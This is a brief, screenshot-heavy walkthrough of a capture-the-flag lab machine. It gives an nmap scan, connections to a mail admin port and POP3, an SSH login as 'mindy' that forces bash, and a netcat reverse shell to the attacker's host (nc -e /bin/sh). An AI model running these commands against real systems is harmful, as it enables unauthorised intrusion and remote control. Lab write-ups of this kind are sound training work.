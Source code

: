 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)



![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

